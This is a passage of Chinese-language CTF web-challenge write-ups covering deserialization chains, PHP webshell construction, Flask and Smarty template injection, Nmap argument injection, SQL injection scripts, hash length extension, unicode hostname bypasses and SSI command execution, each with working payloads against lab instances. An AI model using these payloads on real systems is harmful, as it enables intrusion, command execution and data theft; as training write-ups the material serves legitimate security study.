    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

一开始看 phpinfo 以为是 session_upload_progress, 然后一直想不通怎么利用

后来再看一遍的时候看到了这个


想了想应该是通过最后一句的 file_get_contents 读取 d0g3_f1ag.php

读取的关键点是 `$_SESSION['img']`, 但是用户自定义的 img 路径最后会被 sha1 加密, 无法 base64 decode

但是 session 中 function 可控, 而且可以通过 `$_POST` 变量覆盖

看到 filter 函数会对 serialize 之后的内容进行过滤, 想到了字符串逃逸

参考文章 [https://xz.aliyun.com/t/9213](https://xz.aliyun.com/t/9213)

先在本地调试一下

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

$_SESSION['img'] = base64_encode('guest_img.png');

echo serialize($_SESSION);
echo "\n";
echo filter(serialize($_SESSION));
echo "\n";
var_dump(unserialize(filter(serialize($_SESSION))));

?>
```

这一题是缩短逃逸, 我们必须在原来序列化后的 img 前插入逃逸代码, 而且不能在 user 处直接插入, 否则的话逃逸代码会被吞掉变成字符串

因为有了 extract 变量覆盖, 我们可以在 user 后面构造一个 session 值 aa


先随便输入一些被替换的字符


然后计算高亮字符串的长度, `";s:2:"aa";s:25:"A` 长度 18

在 user 处输入总长度为 18 的可被替换的字符串, 例如 `flagflagflagphpphp`


这里并没有成功

想了一下发现前面的属性数量为 3, 而逃逸后的属性数量为 2, 需要再随便构造一个属性凑到 3 才行


逃逸成功, 之后再放到题目网站上, 替换一下 img 路径


## [ASIS 2019]Unicorn shop（unicode欺骗）


右键注释


以及根据题目标签里的 unicode, 感觉可能是 unicode 欺骗之类的

什么都不填, 直接提交会报错


前三件商品 purchase 一直显示错误


把 2 改成 2.0


提示只能用一个字符

当 id=4 时


按着报错信息来的话, 我们应该是要买第四件商品才能得到 flag

关于 unicode 安全性的参考文章

[https://xz.aliyun.com/t/5402](https://xz.aliyun.com/t/5402)

[https://blog.lyle.ac.cn/2018/10/29/unicode-normalization/](https://blog.lyle.ac.cn/2018/10/29/unicode-normalization/)

我的思路是从 unicode-table 上找到一些比 1337 还要大的单个字符

一开始搜 numbers 一直没找到... 换成 thousand 才出来一大堆



用第一个字符 ten thousand, 直接复制到 burp 里面


## [MRCTF2020]Ezpop(反序列化，get()、invoke()、toString()方法)

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

简单反序列化 pop 链构造, learn from 那里是介绍魔术方法的文章, 已经无法访问了, 但是不影响做题

这题的利用点是 Modifier 类的 append 方法, 通过文件包含配合伪协议读取 flag.php 的内容

触发的前提是 \_\_invoke, 即以函数形式调用, 然后我们可以发现这个调用存在于 Test 类的 \_\_get 方法中

\_\_get 的前提是访问一个不存在的属性, 而在 Show 类的 \_\_toString 方法里面存在着可以利用的语句 `$this->str->source`

然后 \_\_wakeup 的 preg\_match 函数可以触发 \_\_toString

写的时候把利用链倒过来写就行了

payload

```php
<?php

class Modifier{
    protected $var = 'php://filter/convert.base64-encode/resource=flag.php';
}

class Test{
    public $p;
}

class Show{
    public $source;
    public $str;
}


$d = new Modifier();

$c = new Test();
$c->p = $d;

$b = new Show();
$b->str = $c;

$a = new Show();
$a->source = $b;

echo urlencode(serialize($a));

?>
```

base64 解码后得到 flag

```php
<?php
class Flag{
    private $flag= "flag{6e942f00-89fe-4787-b8b2-a01b80930d5e}";
}
echo "Help Me Find FLAG!";
?>
```

## [CISCN 2019 初赛]Love Math(base_convert()、hex2bin()等数学函数构造webshell)

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

这题做了挺长时间的, 主要是有 80 字符的长度限制, 比较恶心

关键函数是 base_convert, 可以任意进制互转 (2~36)


我们选用十进制和三十六进制互转

因为高于十进制的话含有字母, 就需要加引号了, 而引号会被过滤, 三十六进制是方便字母的转换 (0-9 a-z 数量加起来是 36)

另外还需要注意的是 dechex 和 hex2bin 这个函数, 因为 base_convert 只能转换 0-9 a-z, 特殊字符例如空格和 `$` 之类的符号转换的时候会丢失, 而利用两个函数可以把任意字符串转换成十六进制, 然后再转换成纯数字的十进制

自己一开始的思路是构造 system 执行命令, 不过执行 `cat /flag` 就超出长度限制了...

后来想了想必须要尽可能的缩减 payload, 一个很好的例子就是形如 `$_GET[0]($_GET[1])` 这种 webshell

两个 `$_GET` 可以用同一个变量表示, `[]` 可以用 `{}` 绕过

下面就是如何构造 `_GET` 了, 思路把原始字符串先 bin2hex 然后 hexdec

```php
echo hex2bin(dechex(1598506324)); // _GET
```

dechex 在白名单里面, 而 hex2bin 需要我们手动构造 (利用 base_convert)

```php
echo base_convert(37907361743,10,36); // hex2bin
```

之后需要引入一个变量来作为函数执行, 例如 `$a()`, 我们用 `$pi` 以绕过白名单的检测

payload 如下

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});
```

然后传参 0 1 获取 flag

```
http://f91dae26-bec7-4887-8f52-d087acfcec50.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});&0=system&1=cat /flag
```

wp 看到的其它思路

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) // exec(getallheaders(){1})
```

还有通过三角函数进行位运算得到 `*` 然后直接 `cat /f*`, 这里就不写了...

## [WesternCTF2018]shrine（SSTI,利用url_for.__globals__['current_app'].config

get_flashed_messages.__globals__['current_app'].config 绕过限制访问config）

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['\{\{\% set {}=None \%\}\}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

括号替换这个无解, 单字符替换绕不过去...

config 虽然是在 blacklist 里的但是没有直接替换成空, 而是把这个对象设置为 None, 这样直接注入 `{{config}}` 就显示不出信息了

但是在 flask 中可以通过其它函数访问到 config

利用 `__globals__` 访问 current_app, 后者就是当前的 app 的映射, 自然就能访问到 app.config

然后是只有函数才有 `__globals__`

```python
url_for.__globals__['current_app'].config
get_flashed_messages.__globals__['current_app'].config
```

又找了其它函数试了一下, 好像只有这两个能用

```
http://1ed4a4d2-bd0d-45c2-9554-2e20a6892221.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config}}
```

## [网鼎杯 2020 朱雀组]Nmap(escapeshellarg + escapeshellcmd)


随便输了个 127.0.0.1


url 如下

```
http://b4483574-049a-465c-af1b-ef87424d03fd.node4.buuoj.cn:81/result.php?f=9228e
```

一开始以为是文件包含, 然后发现报错的信息是 xml


提示 xml 保存在 /xml/ 目录, 访问之前的扫描结果


感觉不太像 xxe, 于是又回到最开始的界面, 可能是命令注入?

试了一下发现注入的命令 `127.0.0.1;ls` 还是包裹在引号里面的

再输入单引号试试


有转义, 有一点熟悉, 应该是 escapeshellarg + escapeshellcmd 的组合

### 1. 直接拿之前推出来的 payload

过滤了 php 字符, 稍微改一改

```
'<?=eval($_REQUEST[1])?> -oG a.phtml '
```

蚁剑查看 /flag


### 2. wp 里的其它思路

利用的是 nmap 的 `-iL` 参数, 加载待扫描的主机列表

```
127.0.0.1' -iL /flag -o haha
```

escapeshellarg 和 escapeshellcmd 两个组合使用还是不能一眼看出来... 只能一遍一遍慢慢推

```
127.0.0.1' -iL /flag -o haha

'127.0.0.1'\'' -iL /flag -o haha '

'127.0.0.1'\\'' -iL /flag -o haha \'
```

总之就是在 127.0.0.1 后面加了个单引号, 然后因为各种奇葩操作使前面的内容自己闭合, 后面的命令就逃逸出来了

注意最后面要加个空格才能写进 `haha` 里面, 不然的话写进的就是 `haha'` 文件 (但也能正常访问)


## [MRCTF2020]PYWebsite(XFF)

构造 xff 头


## [SWPU2019]Web1(二次注入读文件，或无列名注入)


登录和注册有页面没有注入

注册一个 test test 登录看一下


发布广告, 随便写一点内容


有一个 "待管理确认", 以为是 xss, 结果 payload 弄进去半天了还是这个状态...

只能换个思路

在发布广告的页面输入单引号提交, 然后查看广告详情


有报错, 说明是二次注入

试了下 and order by updatexml extractvalue floor rand 这些都被过滤了, 不能报错注入

union select 没被过滤, 可以手工猜列数

空格会被删掉, 用 `/**/` 绕过

```sql
'/**/union/**/select/**/1,user(),database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

一直试到 22 列...


root 账号, 可以 load_file, 不过 flag.php /flag 都不存在, 应该是在数据库里

于是先读了一下 addads.php 看看过滤了什么

```php
if(preg_match("/updatexml|extractvalue|floor|name_const|join|exp|geometrycollection|multipoint|polygon|multipolygon|linestring|multilinestring|#|--|or|and/i", $title))
```

问题不大

然后读 register.php 查看表的结构

```sql
'/**/union/**/select/**/1,load_file('/var/www/html/register.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

```php
<?php
include_once("./config.php");
error_reporting(0);

if(isset($_POST['ac'])){
    if($_POST['ac'] === 'register'){
        $username = htmlspecialchars(addslashes($_POST['username']));
        $password = md5($_POST['password']);
        // echo $username;
        // if(check($username)){
        //  die("Oh No! You are a hacker!! Not here!!!<br>");
        // }
        // echo $username;
        $sql_query = "select * from users where name = '$username' limit 0,1";
        $sql_insert = "insert into users (name, pass) values ('$username','$password')";

        $result_query = $conn->query($sql_query);
        if($result_query->num_rows){
            die("<font color='red' size='4'>该用户已被注册</font>");
        }else{
            $result_insert = $conn->query($sql_insert);
            if($result_insert){
                header("Location: login.php");
                exit();
            }else{
                die("<font color='red' size='4'>注册失败</font>");
            }
        }
    }
}

$conn->close();
?>
......
```

列数据

```sql
'/**/union/**/select/**/1,(select/**/group_concat(name,0x7e,pass)/**/from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```


看 wp 的时候发现自己又非预期了... 题目考察的是无列名注入

information_schema 被过滤了, 因为含有 or

参考文章

[https://blog.csdn.net/m0_49835838/article/details/109159839](https://blog.csdn.net/m0_49835838/article/details/109159839)

[https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/](https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/)

### **information_schema 的绕过**

> InnoDB 数据表 (mysql > 5.6)
>
> mysql.innodb_table_stats
>
> mysql.innodb_index_stats

需要配置 `default-storage-engine=InnoDB`

不过默认的存储引擎是 MyISAM, 大多数情况下无法利用

```sql
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database();

select group_concat(table_name) from mysql.innodb_index_stats where database_name=database();
```

> sys 库 (mysql > 5.7)
>
> sys.schema_auto_increment_columns
>
> sys.schema_table_statistics_with_buffer
>
> sys.x$schema_table_statistics
>
> sys.x$ps_schema_table_statistics_io
>
> ......

```sql
select group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database();

select group_concat(table_name) from  sys.schema_table_statistics_with_buffer where table_schema=database();

select group_concat(table_name) from sys.x$schema_table_statistics where table_schema=database();

select group_concat(table_name) from sys.x$ps_schema_table_statistics_io where table_schema=database();
```

题目数据库版本是 `10.2.26-MariaDB-log`, mariadb 和 mysql 的版本对照有点奇妙...

能通过 InnoDB 表读取表名, 但是用不了 sys 库

```sql
'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```


### 2. **无列名注入**

方法很多, 这里以子查询为例

```sql
'/**/union/**/select/**/1,(select/**/group_concat(c.1,',',c.2,',',c.3)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)c),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```


## [NPUCTF2020]ReadlezPHP(反序列化，assert+eval嵌套webshell)

```
http://a0ae0eac-51a7-4651-b3c4-88dcc4955b1e.node4.buuoj.cn:81/time.php?source
```

time.php

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

简单反序列化

试了一下 system 没有回显, 应该是被过滤了

单独的 eval 或 assert 都报错, 只能换成 eval + assert

```php
<?php

class HelloPhp{
    public $a = 'eval($_REQUEST[1]);';
    public $b = 'assert';
}

echo serialize(new HelloPhp())

?>
```


过滤了一堆, 不过 scandir 可以用, 列目录看到一个 `/FIag_!S_it` 文件, 用 file_get_contents 读取后显示是假 flag


找了好久文件都找不到, 也不能执行命令

后来想想会不会在环境变量里, 去看了下 phpinfo


## [极客大挑战 2019]FinalSQL(异或注入)

username 和 password 处无法注入

id 处可以异或注入

```
http://6fe3dd29-67cc-4ca2-b559-93cee761e803.node4.buuoj.cn:81/search.php?id=6^(length(database())>0)
```

python 脚本

```python
import time
import requests

url = 'http://6fe3dd29-67cc-4ca2-b559-93cee761e803.node4.buuoj.cn:81/search.php?id=6'

dicts = 'flag{bcde-0123456789}'

flag = ''

for i in range(100):
    time.sleep(0.5)
    for s in dicts:
        payload = f'^(substr((select(group_concat(password))from(F1naI1y)where(password)regexp(\'flag\')),{i},1)=\'{s}\')'
        res = requests.get(url + payload, timeout=30)
        if 'ERROR' in res.text:
            flag += s
            print(flag)
```

## [De1CTF 2019]SSRF Me(hash长度扩展攻击)

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"


def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```

hint 提示是 flag 在 ./flag.txt

源码中的 getSign 会生成加盐的 md5, 盐值就是 `os.urandom(16)` 生成的 16 位 secret_key

Task 中的 checkSign 会对签名进行认证, 确保我们的 param action 和 sign 一致

waf 函数会过滤掉 gopher 和 file 协议, 但是本地 Python 2 环境测试发现 `urllib.urlopen('flag.txt')` 也可以正常读取本地文件

先传递 `param=flag.txt`


之后构造参数访问 /De1ta

 

并没有返回 flag.txt 的内容, 这是因为我们的 action 设置死了是 scan, 不能更改为 read 从而返回读取的内容

后来看到 `secert_key = os.urandom(16)` 感觉有点熟悉, 因为 moectf 的一道题目的开头也是这个, 猜测可能是一个专门的考点

搜了一下发现是哈希长度扩展攻击, 参考文章如下

[https://xz.aliyun.com/t/2563](https://xz.aliyun.com/t/2563)

利用工具 HashPump 和 hexpand

[https://www.cnblogs.com/pcat/p/5478509.html](https://www.cnblogs.com/pcat/p/5478509.html)

[https://www.cnblogs.com/pcat/p/7668989.html](https://www.cnblogs.com/pcat/p/7668989.html)

原理就不说了, 因为目前看不太懂... 就说一下工具的使用吧

这种攻击方式的作用就是在只知道 salt 长度的情况下, 通过一个已知的 `md5(salt + message)` 来构造 `md5(salt + message + append)`

回到题目中, 根据源码, 我们已知的是 `md5(secret_key + 'flag.txt' + 'scan')`, 即 `9c28a808df8a196420386aed00ab449e`

因为题目中对 read 的检测是 `if 'read' in self.action`, 所以我们只要在原来数据的基础上追加 scan 字符串, 即 `secret_key + 'flag.txt' + 'scan' + 'read'`, 再生成对应的 md5 值提交就能够读取到 flag.txt 的内容

下面以 HashPump 为例

```bash
exp10it@LAPTOP-TBAF1QQG:~$ hashpump
Input Signature: 9c28a808df8a196420386aed00ab449e
Input Data: flag.txtscan
Input Key Length: 16
Input Data to Add: read
4c386a1c6c694c2f42fd2de88eb3f0e7
flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

之后把 `\x` 替换成 `%` (url 编码的形式)

```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00
```

修改参数提交得到 flag


注意 message 的拼接, 因为 flag.txt 已经在 param 中传递了, 我们只需要在 action 中构造 flag.txt 后的部分即可

后来看了下 wp 发现了一种更简单的方法, 单纯利用字符串拼接的特性

首先传参 `param=flag.txtread`


然后访问 /De1ta, action 改为 `readscan`


简单说一下思路

```python
md5(secert_key + 'flag.txtread' + 'scan') # /geneSign

md5(secert_key + 'flag.txt' + 'readscan') # /De1ta
```

这种方法的利用方式跟 moectf 的一道题很类似, 都是脑筋急转弯 (?)

## [CISCN2019 华东南赛区]Web11（SSTI,Smarty）


最下面提示是 smarty 模板, 右上角有个 current ip

尝试通过 xff 头更改


输入 `{$smarty.version}`


存在 ssti

参考文章 [https://www.anquanke.com/post/id/272393](https://www.anquanke.com/post/id/272393)

利用 if 标签执行 php 代码

```
{if system('cat /flag')}{/if}
```


## [BSidesCF 2019]Futurella

右键查看源代码得到 flag

## [SUCTF 2019]Pythonginx(unicode字符欺骗，file://协议也可以加上host)

```python
from flask import Flask, Blueprint, request, Response, escape ,render_template
from urllib.parse import urlsplit, urlunsplit, unquote
from urllib import parse
import urllib.request

app = Flask(__name__)

# Index
@app.route('/', methods=['GET'])
def app_index():
    return render_template('index.html')

@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl, timeout=2).read()
    else:
        return "我扌 your problem? 333"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

这一串 url 操作把我搞晕了...

有一句 `newhost.append(h.encode('idna').decode('utf-8'))`, 可能跟之前的 Unicode 欺骗类似?

搜了一下 IDNA, 参考文章如下

[https://www.tr0y.wang/2020/08/18/IDN/](https://www.tr0y.wang/2020/08/18/IDN/)

[https://xz.aliyun.com/t/6070](https://xz.aliyun.com/t/6070)

意思就是说 `newhost.append(h.encode('idna').decode('utf-8'))` 进行了规范化, 会把某些特殊的 Unicode 字符规范化为正常的 ASCII 字符

本地测试发现 urlsplit 和 parse.urlparse 不会对域名进行规范化处理, 所以我们要找到一些 unicode 字符绕过前两个 if 的检测, 并且在进行规范化之后通过第三个 if 的判断

之后需要读文件, 题目名称提示是 nginx, 能读到的路径是 `/usr/local/nginx/conf/nginx.conf`

最后还利用到的一个知识点是 file 协议的格式, 这个之前一直没注意到

[https://blog.csdn.net/m0_46278037/article/details/113881347](https://blog.csdn.net/m0_46278037/article/details/113881347)

URL 的一般格式如下

```
<Protocol>://<Host>:<Port>/<Path>
```

file 协议也是遵循上述格式的, 不过因为只能访问本地资源, 所以 `<Host>:<Port>` 就被省略掉了

```
file:///<Path>
```

不过我们依然可以把 host 写上去


如果地址不是本地的地址会爆 `URLError: <urlopen error file not on local host>` 的错误

找了下官方的 wp, 发现提示在注释里面


好吧...

我用的 unicode 字符是 `ⓒ`, 最终 payload 如下

```
file://suctf.cⓒ/usr/local/nginx/conf/nginx.conf
```


然后读取 flag

```
file://suctf.cⓒ/usr/fffffflag
```


看了官方的 wp 才发现题目中的代码跟 black hat 2019 上的一模一样


[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

## [BJDCTF2020]EasySearch(md5哈希前几位限定爆破，shtml后缀 ，SSI注入命令执行)

index.php.swp

```php
<?php
    ob_start();
    function get_hash(){
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
        $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
        $content = uniqid().$random;
        return sha1($content); 
    }
    header("Content-Type: text/html;charset=utf-8");
    ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
            ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
            echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
    ***
    }
    ***
?>
```

password md5 加密后的前六位要等于 `6d0bc1`

第一时间想到的是爆破

随便写了个垃圾脚本

```python
from hashlib import md5
import itertools

chars = [chr(i) for i in range(32,128)]

for s in itertools.product(chars,repeat=4):
    m = "".join(s)
    if md5(m.encode()).hexdigest()[:6] == '6d0bc1':
        print(m)
```

输出

```
 Rbl
RhPd
d`H6
kX!}
```

选一个 `RhPd` 登录


返回头有个链接

```
Url_is_here: public/374a20e202c0bec732b9896fbdc48029b6c5eb0a.shtml
```


会显示出登录的用户名, 时间和 ip 地址, 跟源码里的逻辑差不多

而且看到后缀是 shtml, 搜了一下相关文章

[https://www.secpulse.com/archives/66934.html](https://www.secpulse.com/archives/66934.html)

[https://www.cnblogs.com/mujj/articles/4077058.html](https://www.cnblogs.com/mujj/articles/4077058.html)

SSI 注入

试一下执行命令的 payload

```html
<!--#exec cmd="ls /"-->
他的指令我就不一样列举了 提几个有用的
1 	<!--#include file="/home/www/user5993/nav_foot.htm"--> //可以用来读文件
2 	<!--#exec cmd="ifconfig"--> //可以用来执行命令
3 	<!--#include virtual="/includes/header.html" --> //也是读文件 与FILE不同他支持绝对路径和../来跳转到父目录 而file只能读取当前目录下的
```


flag 文件在 /var/www/html


## [0CTF 2016]piapiapia（反序列化，字符增多，代码审计）

www.zip 泄露


